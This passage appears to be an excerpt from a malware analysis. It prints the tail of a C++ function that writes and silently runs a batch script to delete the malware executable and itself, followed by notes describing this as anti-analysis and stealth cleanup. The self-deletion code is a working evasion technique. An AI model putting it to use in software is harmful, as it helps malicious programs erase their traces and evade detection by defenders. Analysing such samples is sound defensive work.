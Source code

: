 ```cpp
    // Remove readonly attribute from exe
    SetFileAttributesA(exe_path, FILE_ATTRIBUTE_NORMAL);
    
    // Write deletion script
    fprintf(batch, ":repeat\n");
    fprintf(batch, "del \"%s\"\n", exe_path);
    fprintf(batch, "if exist \"%s\" goto repeat\n", exe_path);
    fprintf(batch, "del \"%s\"\n", batch_path);
    
    fclose(batch);
    
    // Execute batch file hidden
    return ShellExecuteA(
        NULL,
        "open",
        batch_path,
        NULL,
        NULL,
        SW_HIDE
    );
}
```

**Self-Deletion Process**:
1. **Preparation**:
   - Gets malware executable path
   - Creates random batch filename
   - Removes readonly attribute

2. **Batch Script**:
   - Creates deletion loop
   - Handles file locks
   - Self-deletes batch file
   - Uses hidden execution

**Security Implications**:
- Implements secure cleanup
- Removes malware traces
- Handles file locks
- Avoids detection

**Anti-Analysis Features**:
- Hidden execution
- Random batch names
- Persistent deletion loop
- Attribute manipulation

**Relationship to Other Functions**:
- Uses `VIBE::generate_random_filename`
- Part of cleanup procedures
- Supports stealth operations
- Used in update process
